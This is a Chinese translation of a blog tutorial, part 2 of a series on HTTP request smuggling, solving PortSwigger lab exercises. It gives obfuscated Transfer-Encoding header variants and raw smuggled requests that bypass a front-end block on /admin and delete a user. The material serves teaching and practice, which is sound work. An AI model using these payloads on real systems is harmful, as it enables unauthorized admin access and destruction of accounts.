# HTTP 请求走私解释和利用第 0x2 部分

> 原文：<https://infosecwriteups.com/http-request-smuggling-explained-and-exploited-part-0x2-7768d04883fb?source=collection_archive---------1----------------------->

嗨！我叫 Hashar Mujahid，今天我们将继续讨论什么是 HTTP 请求走私漏洞，以及我们如何利用它们。



图片来自[亮秒](https://brightsec.com/)

如果您想了解什么是 HTTP 请求走私，我建议您阅读本系列的第 1 部分。

[](/http-request-smuggling-explained-and-exploited-part-0x1-89ce2956534f) [## HTTP 请求走私解释和利用第 0x1 部分

### 嗨！我的名字是 Hashar Mujahid，今天我们将先睹为快请求走私漏洞。

infosecwriteups.com](/http-request-smuggling-explained-and-exploited-part-0x1-89ce2956534f) 

现在，我们将从上一篇博客停止的地方继续。

# TE。TE 行为:混淆 TE 头。

在这种情况下，前端和后端都有能力处理`Transfer-Encoding: Chunked`头，但是我们将通过某种方式调节头来欺骗其中一方不处理头。

示例:

现在，我们将看到一些如何使用`Transfer-Encoding: Chunked`头的例子，

```
**Transfer-Encoding: xchunked  
Transfer-Encoding : chunked  
Transfer-Encoding: chunked 
Transfer-Encoding: x  
Transfer-Encoding:[tab]chunked  
[space]Transfer-Encoding: chunked  
X: X[\n]Transfer-Encoding: chunked  
Transfer-Encoding : chunked**
```

我们可以通过在块前面添加`x`或者在`Transfer-Encoding`头前面添加额外的空间来看到这一点。我们可以混淆标题。

每种技术都会产生不同的结果，这取决于它在后端是如何实现的；有些行得通，有些行不通。

来检测 **TE。TE** 漏洞，我们只需要找到一个服务器会忽略而另一个服务器会处理的报头变化。

## [实验室:HTTP 请求走私，混淆 TE 头](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)

本实验涉及一台前端服务器和一台后端服务器，两台服务器以不同的方式处理重复的 HTTP 请求头。前端服务器拒绝不使用 GET 或 POST 方法的请求。

为了解决这个实验，偷偷向后端服务器发送一个请求，这样后端服务器处理的下一个请求看起来使用了`GPOST`方法。

**剥削:**

访问实验室并捕获对打嗝中继器的请求。



只允许 GET 和 POST

现在取消选中 repeater 中更新的内容长度。

步骤 2:将请求方法更改为“POST”

第三步:去掉不必要的页眉。

步骤 4:将内容长度改为 4。

现在，对于棘手的部分，我们需要添加我们的传输编码头，并找到一种方法，使我们的后端服务器可以处理它们，前端将忽略它们。

```
POST / HTTP/1.1
Host: 0ab8008b037606dfc05d2f1700b60097.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-EncodinG: c\] ===> Obsufcated  header.**5c ===> repersent the size of chunk in hex == 92 bytes**
***GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15 ===> Request that will be smuggled to be part of the next request***x=1
0
```

将这个请求发送两次，您应该会收到一个错误。



这些都是入门攻击。现在我们来看看如何利用这个漏洞对 web 应用程序进行一些严重的攻击。

# 使用 HTTP 请求走私绕过前端安全控制

安全控制可以在应用程序的前端和后端实现。让我们考虑一个场景，应用程序的前端由于这个验证而阻止用户访问某些目录`/admin`。开发人员没有在后端进行任何验证，所以如果攻击者以某种方式绕过了前端安全性，后端会用对请求的响应来回应他。

```
POST /home HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 62 
Transfer-Encoding: chunked 0  
GET /admin HTTP/1.1 
Host: vulnerable-website.com 
Foo: xGET /home HTTP/1.1 
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都是针对`/home`的，因此请求被转发到后端服务器。然而，后端服务器看到一个对`/home`的请求和一个对`/admin`的请求。它(像往常一样)假设请求已经通过了前端控件，因此授予对受限 URL 的访问权限。

## [实验室:利用 HTTP 请求走私绕过前端安全控制，CL。TE 漏洞](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)。

本实验涉及前端和后端服务器，前端服务器不支持分块编码。有一个管理面板`/admin`，但前端服务器阻止访问它。

为了解决这个问题，向访问管理面板并删除用户`carlos`的后端服务器发送一个请求。

解决方案:

我们知道，前端不支持组块编码。因此，我们可以通过使用 CL 来尝试绕过前端安全控制。TE 攻击。

访问实验室并将请求发送到打嗝中继器。

将请求方法更改为 POST 并删除多余的标头。

我们的请求应该是这样的。



现在添加我们的传输编码头，前端忽略，后端处理。



现在，我们需要走私我们的请求，将我们带到管理面板。



这意味着我们的请求格式不正确。让我们多修补一下。



401



只有本地用户可以访问该面板

现在我们知道是什么导致了 401。

我们通常可以通过添加一个带有 localhost 值 init 的主机头来绕过它。

`HOST: localhost`


服务器检测到两个主机标头，并拒绝第二个请求。

```
GET /admin HTTP/1.1 
**Host: localhost ===> 2 host headers are cusing problem**
X-Ignore: X
POST / HTTP/1.1 
**Host: YOUR-LAB-ID.web-security-academy.net** 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 54 
Transfer-Encoding: chunked
```

现在，我们需要将我们的走私请求作为一个单独的请求，而不是将其与我们的第二个请求合并。

我们可以通过添加一个新行和一个参数来做到这一点，这样第二个请求将被附加到被发送的请求的正文中。

像这样

```
Headers
GET /admin HTTP/1.1 
**Host: localhost ===> 2 host headers are cusing problem**x=POST / HTTP/1.1 Host: YOUR-LAB-ID.web-security-academy.net Content-Type: application/x-www-form-urlencoded 
Content-Length: 54 
Transfer-Encoding: chunked
```



管理面板

现在我们可以访问管理面板了。

删除卡洛斯！！！！



```
0GET /admin/delete?username=carlos HTTP/1.1
Host: localhostx=
```

这表明，只有 4 行恶意文字，我们能够删除他人的帐户。



即使对我来说，这也是一个难以理解的话题。

我希望你能像我喜欢制作它一样喜欢阅读它。

如果您想了解更多关于 HTTP 请求走私的知识，请考虑跟随我。

直到那时，快乐的黑客！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！